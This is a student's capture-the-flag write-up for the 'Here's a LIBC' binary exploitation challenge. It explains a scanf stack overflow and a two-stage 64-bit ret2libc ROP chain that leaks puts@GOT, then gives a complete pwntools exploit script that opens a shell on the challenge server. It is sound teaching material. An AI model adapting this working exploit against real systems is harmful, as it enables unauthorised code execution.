

# Here's a LIBC — 64-bit Ret2libc & GOT Leak

* **Platform:** [CyLab Security Academy](https://learn.cylabacademy.org/) / [picoCTF](https://play.picoctf.org/)  
* **Category:** Binary Exploitation (Pwn)  
* **Difficulty:** Medium (CyLab 3)  
* **Tools:** `file`, `checksec`, GDB with `pwndbg`, `ROPgadget`, `pwntools`, Python 3  
* **Binary:** 64-bit ELF (`vuln`) paired with `libc.so.6` (Ubuntu GLIBC 2.27-3ubuntu1.2)  

---

## TL;DR

An essential milestone for any computer science student learning binary exploitation: **64-bit ret2libc**. The binary has a stack buffer overflow via unbounded `scanf("%[^\n]", buf)`. Because NX is enabled and the binary is non-PIE, we build a two-stage ROP chain: Stage 1 calls `puts@plt` to leak the resolved runtime address of `puts@GOT` and loops back into `do_stuff()`; Stage 2 calculates the base address of the provided `libc.so.6`, aligns the stack (to satisfy the x86-64 SSE 16-byte alignment requirement), and invokes `system("/bin/sh")` to drop a shell.

---

## Student's Learning Note: Transitioning from 32-bit to 64-bit ROP

In introductory CTF challenges, we mostly deal with 32-bit x86 where parameters are simply pushed onto the stack before calling a function. Moving to 64-bit architecture introduced two major architectural changes from my Systems & Architecture coursework:

1. **System V AMD64 Calling Convention:** Function arguments are passed in registers rather than on the stack! The first argument lives in `RDI`. Therefore, calling `puts(GOT_PUTS)` requires finding a `pop rdi ; ret` gadget in the binary to load the target pointer into `RDI`.
2. **The 16-byte Stack Alignment Mandate:** The AMD64 ABI strictly requires that `RSP` be 16-byte aligned before calling standard C library functions. Modern glibc implementations of `system()` / `do_system()` execute SIMD instructions like `movaps`. If the stack is offset by 8 bytes, the CPU throws a General Protection Fault (`SIGSEGV`). Inserting a standalone `ret` gadget shifts the stack by 8 bytes and prevents the crash.

---

## Reconnaissance

Analyzing the target binary and mitigations with `file` and `checksec`:

```bash
$ file vuln
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, not stripped

$ checksec --file=vuln
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000 base)
RUNPATH:  ./
```

Key takeaways:
* **No PIE:** The `.text` code section and PLT/GOT tables are fixed at constant addresses starting at `0x400000`.
* **No Canary:** We can safely overwrite the saved frame pointer and return address on the stack.
* **NX Enabled:** The stack is non-executable, ruling out direct shellcode execution.
* **Provided Libc:** Ubuntu GLIBC 2.27-3ubuntu1.2, giving us exact function offsets once we leak any single libc pointer.

---

## Vulnerability Analysis

Inspecting `do_stuff()` in the decompilation:

```c
char buf[128]; // [rbp - 0x80]
scanf("%[^\n]", buf);
```

* `scanf("%[^\n]", buf)` reads characters until a newline is entered, with zero bounds checking on `buf`.
* **Offset Calculation:** The buffer starts at `[rbp - 0x80]` (128 bytes). The saved return address is located at `[rbp + 0x8]`.
  $$\text{Offset to RIP} = 0x80 + 0x8 = 128 + 8 = 136 \text{ bytes}$$
* The function contains a loop that flips character casing for `buf[0..99]`. Because `136 > 100`, our ROP chain situated at offset 136 is completely preserved!

---

## Two-Stage Exploitation Plan



### Stage 1: Leaking Libc Address
Using `ROPgadget`, we identify our required gadgets and PLT/GOT pointers:
* `pop rdi ; ret` = `0x400913`
* `puts@plt` = `0x400540`
* `puts@got` = `0x601018`
* `do_stuff` = `0x4006d8`

When Stage 1 executes, `puts` prints the runtime address of `puts` in libc, and then immediately re-enters `do_stuff()` so the process stays alive to receive our second payload:
$$\text{libc\_base} = \text{puts\_leak} - 0x80a30$$
$$\text{system} = \text{libc\_base} + 0x4f4e0$$
$$\text{/bin/sh} = \text{libc\_base} + 0x1b40fa$$

### Stage 2: Spawning Shell with Stack Alignment
To prevent `system()` from crashing on `movaps`, we prepend a standalone `ret` (`0x40052e`) gadget:

```text
[ 136 bytes of padding ]
+ [ ret ]       <-- 8-byte stack alignment fix
+ [ pop_rdi ]
+ [ binsh_addr ]
+ [ system_addr ]
```

---

## My Debugging Hurdle: Local Linker Incompatibility

When testing locally on my Arch Linux machine (which runs glibc 2.39+), attempting to execute the binary with the challenge's provided older `libc.so.6` (glibc 2.27) caused an immediate crash:
```text
Inconsistency detected by ld.so: dl-call-libc-early-init.c: Assertion `...` failed!
```

> [!TIP]
> **Matching the Linker:**  
> Simply setting `LD_PRELOAD=./libc.so.6` fails if your host dynamic linker (`/lib64/ld-linux-x86-64.so.2`) is newer than the target libc. To test with 100% fidelity, I patched the binary with `pwninit` / `patchelf` to use the matching linker `ld-2.27.so`:
> ```bash
> ./ld-2.27.so --library-path . ./vuln
> ```
> This let me reproduce and verify the exploit locally in GDB before firing it at the remote instance!

---

## Exploit Script

```python
#!/usr/bin/env python3
"""
CyLab / picoCTF — Here's a LIBC
Exploit: 64-bit Ret2libc with GOT Address Leak & 16-byte Stack Alignment
"""

from pwn import *

context.log_level = 'info'
context.arch = 'amd64'

HOST = "xebec.cylabacademy.net"
PORT = 48281

POP_RDI  = 0x400913
RET      = 0x40052e
PUTS_PLT = 0x400540
GOT_PUTS = 0x601018
DO_STUFF = 0x4006d8
OFF      = 136

PUTS_OFF   = 0x80a30
SYSTEM_OFF = 0x4f4e0
BINSH_OFF  = 0x1b40fa

def main():
    p = remote(HOST, PORT)
    p.recvuntil(b'sErVeR!\n', timeout=5)

    # Stage 1: Leak puts libc address and loop back to do_stuff()
    payload1 = b'A' * OFF + p64(POP_RDI) + p64(GOT_PUTS) + p64(PUTS_PLT) + p64(DO_STUFF)
    p.sendline(payload1)
    p.recvuntil(b'\n')  # Discard echoed string

    leak = p.recvline().strip()
    puts_leak = u64(leak.ljust(8, b'\x00'))
    libc_base = puts_leak - PUTS_OFF
    system_addr = libc_base + SYSTEM_OFF
    binsh_addr = libc_base + BINSH_OFF

    log.success(f"Libc Base: {hex(libc_base)}")

    # Stage 2: Return-to-system with stack alignment
    payload2 = b'A' * OFF + p64(RET) + p64(POP_RDI) + p64(binsh_addr) + p64(system_addr)
    p.sendline(payload2)
    p.interactive()

if __name__ == '__main__':
    main()
```

*(See [`exploit.py`](exploit.py) for the complete script).*

---

## Flag

```text
academy{redacted}
```
*(Flag redacted in accordance with competition disclosure guidelines)*

---

## Key Takeaways & Lessons

1. **64-bit Calling Conventions:** Remember that x86-64 passes the first 6 arguments in registers (`rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`). Finding `pop rdi ; ret` gadgets is the bread and butter of 64-bit ROP.
2. **The 16-Byte Stack Alignment Rule:** Always keep a `ret` gadget ready. If an exploit segfaults inside `system()` or `do_system()`, an extra 8-byte `ret` restores alignment and saves hours of debugging.
3. **Loopback Chaining:** Restarting `do_stuff()` or `main()` inside your ROP chain lets you perform infinite multi-stage exploits over a single socket connection.
